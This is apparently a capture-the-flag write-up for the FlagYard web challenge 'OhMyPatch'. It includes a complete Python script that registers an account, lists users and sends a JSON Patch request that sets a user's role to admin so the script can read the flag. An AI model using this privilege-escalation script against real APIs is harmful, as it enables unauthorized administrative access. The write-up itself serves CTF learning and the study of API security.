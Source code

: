 # OhMyPatch

**Challenge Name**: OhMyPatch  
**Category**: Web  
**Points**: 120  
**Platform**: FlagYard

## Challenge Overview:
In this challenge, the goal is to exploit a web application by escalating privileges and retrieving a flag by JSON Patch exploit. The challenge involves a series of steps including user registration, API manipulation, and a privilege escalation exploit.

### Steps Involved:

1. **User Registration**:
   - Register a new user using the `/register` endpoint.
   - A token is retrieved from the response, which is used for authentication in later steps.

2. **Fetching All Users**:
   - Fetch all users from the `/users` endpoint.
   - Find the specific user by their name (e.g., "JohnDoe") and retrieve their user ID.

3. **Privilege Escalation**:
   - Perform a privilege escalation by modifying the role of a user to "admin" using a `PATCH` request.

4. **Retrieving the Flag**:
   - After escalating privileges, access the `/flag` endpoint to retrieve the flag.

### Key Endpoints:
- `POST /register`: Register a new user.
- `GET /users`: Fetch the list of all users.
- `PATCH /patch`: Modify a user's role to admin.
- `GET /flag`: Retrieve the flag after escalating privileges.

### Techniques Used:
- **JSON Web Token (JWT)**: Used for authentication.
- **Privilege Escalation**: Role modification exploit.
- **API Manipulation**: Exploit of web API endpoints, particularly the `PATCH` method.

### Tools & Libraries:
- **Python**: Script is written in Python.
- **Requests Library**: Used to handle HTTP requests.
- **JSON Patch**: Used to modify the role of users.

## Code

```python
import requests
import json
import sys

# Base URL
# Change this to the target URL
base_url = "http://instace-target.com"

# User Information
username_to_register = "newuser"
name_to_find = "JohnDoe"  # Change this to the desired user name

# Step 1: User Registration
register_url = f"{base_url}/register"
user_data = {
    "name": name_to_find,  # Use the name to find id
    "username": username_to_register,
    "password": "securepassword",
    "age": 25,
    "department": "IT"
}

print("[+] Registering user...")
register_response = requests.post(register_url, headers={
                                  "Content-Type": "application/json"}, data=json.dumps(user_data))

if register_response.status_code == 200:
    print("[+] User registered successfully.")
    response_json = register_response.json()
    # Fetch token from the correct key
    token = response_json.get("access_token")
    if token:
        print(f"[+] Token retrieved: {token}")
    else:
        print("[-] Token not found in the registration response.")
        print("Response:", response_json)
        sys.exit(1)
else:
    print(f"[-] Failed to register user. Status Code: {
          register_response.status_code}, Response: {register_response.text}")
    sys.exit(1)

# Step 2: Fetch all users to get user ID
users_url = f"{base_url}/users"  # Use the base URL
print("[+] Fetching all users...")

# Verify that the token is valid before using it
if len(token.split(".")) != 3:
    print(f"[-] Invalid JWT token format: {token}")
    sys.exit(1)

users_response = requests.get(
    users_url, headers={"Authorization": f"Bearer {token}"})

if users_response.status_code == 200:
    users_data = users_response.json()
    print(f"[+] Users fetched successfully: {users_data}")
else:
    print(f"[-] Failed to fetch users. Status Code: {
          users_response.status_code}, Response: {users_response.text}")
    sys.exit(1)

# Find our user by the "name" field
user_id = None
for user in users_data['users']:
    if user['name'] == name_to_find:
        user_id = user['id']
        break

if user_id is None:
    print(f"[-] Failed to find the user '{name_to_find}' in the users list.")
    sys.exit(1)
else:
    print(f"[+] Found user ID: {user_id}")

# Step 3: Privilege Escalation (Patch the found user ID to Admin)
patch_url = f"{base_url}/patch"  # Use the base URL
patch_data = [
    {
        "op": "replace",
        "path": f"/users/{user_id - 1}/role",
        "value": "admin"
    }
]

print(f"[+] Escalating privileges for user ID {user_id - 1} to admin...")
patch_response = requests.patch(patch_url, headers={
    "Content-Type": "application/json",
    "Authorization": f"Bearer {token}"
}, data=json.dumps(patch_data))

if patch_response.status_code == 200:
    print(f"[+] Privilege escalation successful: {patch_response.text}")
else:
    print(f"[-] Failed to escalate privileges. Status Code: {
          patch_response.status_code}, Response: {patch_response.text}")
    sys.exit(1)

# Step 4: Retrieve Flag
flag_url = f"{base_url}/flag"  # Use the base URL

print("[+] Attempting to retrieve flag...")
flag_response = requests.get(flag_url, headers={
    "Authorization": f"Bearer {token}",
    "Content-Type": "application/json"
})

if flag_response.status_code == 200:
    print(f"[+] Flag retrieved: {flag_response.text}")
else:
    print(f"[-] Failed to retrieve flag. Status Code: {
          flag_response.status_code}, Response: {flag_response.text}")
    sys.exit(1)
```

### Conclusion:
By leveraging API manipulation and privilege escalation, this challenge allows the retrieval of a flag to complete the CTF. Understanding how to exploit user role modifications in web applications is crucial to succeeding in this challenge.
